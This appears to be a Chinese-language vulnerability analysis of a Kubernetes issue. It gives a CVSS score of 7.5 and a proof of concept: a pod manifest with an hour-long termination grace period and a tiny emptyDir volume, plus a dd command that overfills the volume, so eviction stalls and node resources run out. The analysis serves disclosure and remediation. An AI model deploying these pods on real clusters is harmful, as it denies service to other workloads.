 - **攻击向量（AV）**：网络（N）
- **攻击复杂度（AC）**：低（L）
- **特权要求（PR）**：低（L）——需要有创建Pod的权限
- **用户交互（UI）**：无（N）
- **作用范围（S）**：未改变（U）
- **机密性（C）**：无影响（N）
- **完整性（I）**：无影响（N）
- **可用性（A）**：高（H）

综合得分为**7.5（高）**。

**Proof of Concept**

按照Issue中提供的步骤：

1. **创建具有超长终止宽限期的Pod**

   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: exploit-pod
   spec:
     containers:
     - name: busybox
       image: busybox:latest
       command: ['sh', '-c', 'sleep 3600']
       volumeMounts:
       - name: empty-dir-vol
         mountPath: /var/empty-dir
     volumes:
     - name: empty-dir-vol
       emptyDir:
         sizeLimit: "1Mi"
     terminationGracePeriodSeconds: 3600
   ```

2. **触发资源限制**

   进入Pod内部，执行以下命令以超出EmptyDir的存储限制：

   ```shell
   cd /var/empty-dir
   dd if=/dev/zero of=largefile.txt bs=1M count=10
   ```

3. **观察结果**

   - Kubelet检测到存储资源压力，触发驱逐过程。
   - 由于`terminationGracePeriodSeconds`被设置为3600秒，Pod不会立即终止，而是继续运行，持续占用资源。
   - 如果大量此类Pod被创建，节点资源将被耗尽，影响其他Pod的正常运行。

**总结**

该Issue展示了一个可以被攻击者利用的漏洞，通过设置超长的`terminationGracePeriodSeconds`，阻碍Kubelet及时驱逐违规Pod，导致资源被恶意占用，可能造成拒绝服务攻击。根据风险判断标准，此问题涉及潜在的安全风险，且可能被分配CVE编号，建议及时修复。

---

